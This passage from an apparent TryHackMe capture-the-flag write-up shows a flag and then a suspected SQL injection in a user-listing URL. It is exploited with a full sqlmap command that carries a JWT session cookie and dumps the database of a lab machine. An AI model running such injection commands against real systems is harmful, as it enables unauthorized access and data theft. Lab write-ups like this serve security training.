 We got our first flag:

```
THM{c37a63895910e478f28669b048c348d5}
```

We notice that we can list users, if we go to any user, we can see this:

 
![Pasted image 20250331163239.png](../../IMAGES/Pasted%20image%2020250331163239.png)

The url seems odd, we can test stuff like `LFI` or `SQLI` payload:

![Pasted image 20250331163332.png](../../IMAGES/Pasted%20image%2020250331163332.png)

We got it, this page may be vulnerable to SQLI, let's use sqlmap:

```bash
sqlmap -u "http://10.10.239.175/admin?user=2" --cookie='token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3NDM0NTYwMzl9.XxMci203JEpwiMq88Skqx40-2HDRa7ao8znkRjRjj4Q' --technique=U --delay=2 -dump
```


We get the following:

![Pasted image 20250331164347.png](../../IMAGES/Pasted%20image%2020250331164347.png)
